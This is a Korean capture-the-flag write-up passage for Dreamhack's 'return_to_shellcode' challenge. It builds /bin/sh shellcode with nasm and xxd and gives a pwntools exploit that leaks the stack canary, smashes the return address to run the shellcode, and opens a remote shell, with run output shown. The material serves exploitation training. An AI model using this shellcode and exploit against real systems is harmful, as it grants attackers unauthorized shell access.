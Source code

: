 ```python
┌──(root💀kali)-[~/바탕화면/return_to_shellcode]
└─# nasm -f elf64 shellcode.asm                                                            1 ⚙
                                                                                               
┌──(root💀kali)-[~/바탕화면/return_to_shellcode]
└─# objcopy --dump-section .text=shellcode.bin shellcode.o                                 1 ⚙
                                                                                               
┌──(root💀kali)-[~/바탕화면/return_to_shellcode]
└─# xxd shellcode.bin                                                                      1 ⚙
00000000: 4831 c048 bb2f 6269 6e2f 2f73 6853 4889  H1.H./bin//shSH.
00000010: e748 31f6 4831 d248 b8fe fefe fefe fefe  .H1.H1.H........
00000020: 3b48 c1e8 380f 05                        ;H..8..
```

즉 쉘코드는 \x48\x31\xc0\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x48\xb8\xfe\xfe\xfe\xfe\xfe\xfe\xfe\x3b\x48\xc1\xe8\x38\x0f\x05 가 된다.

```python
from pwn import *

p = remote('host3.dreamhack.games',13898)
p.recvuntil("Address of the buf: ")
address=int(p.recvline()[:-1],16)
print("addr:",hex(address))

payload=b'A'*0x59
p.send(payload)
p.recvuntil("Your input is ")
p.recvuntil(payload)
canary=u64(b"\x00"+p.recv(7))

print("canary:",hex(canary))

shellcode=b'\x48\x31\xc0\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x48\xb8\xfe\xfe\xfe\xfe\xfe\xfe\xfe\x3b\x48\xc1\xe8\x38\x0f\x05'
payload=shellcode+b'A'*(0x58-len(shellcode))

payload+=p64(canary)

payload+=b'B'*0x8 

payload+=p64(address)

p.sendlineafter("Input:",payload)

p.interactive()
```

이 익스 코드를 이제 실행해 주고 나면

```python
┌──(root💀kali)-[~/바탕화면/return_to_shellcode]
└─# python3 ./answer.py                                                                    1 ⚙
[+] Opening connection to host3.dreamhack.games on port 13898: Done
/root/바탕화면/return_to_shellcode/./answer.py:5: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil("Address of the buf: ")
addr: 0x7fffcba9b120
/root/바탕화면/return_to_shellcode/./answer.py:11: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil("Your input is ")
canary: 0x4655079c98c3b600
/usr/local/lib/python3.10/dist-packages/pwnlib/tubes/tube.py:822: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
[*] Switching to interactive mode
```